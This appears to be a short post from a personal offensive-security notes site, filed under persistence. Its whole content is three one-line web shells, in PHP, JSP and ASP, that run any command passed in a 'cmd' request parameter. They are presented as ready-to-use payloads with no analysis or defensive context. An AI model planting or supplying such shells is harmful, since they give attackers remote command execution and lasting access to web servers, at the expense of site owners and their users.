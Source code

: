 ```yaml
---
description: >-
  Webshells
title: WebShells              # Add title here
date: 2023-12-26 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Webshells]                     # Change Templates to Writeup
tags: [persistence, webshell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### PHP WEBSHELL
```php
<?php system($_REQUEST["cmd"]); ?>
```
### JSP WEBSHELL
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
### ASP WEBSHELL
```asp
<% eval request("cmd") %>
```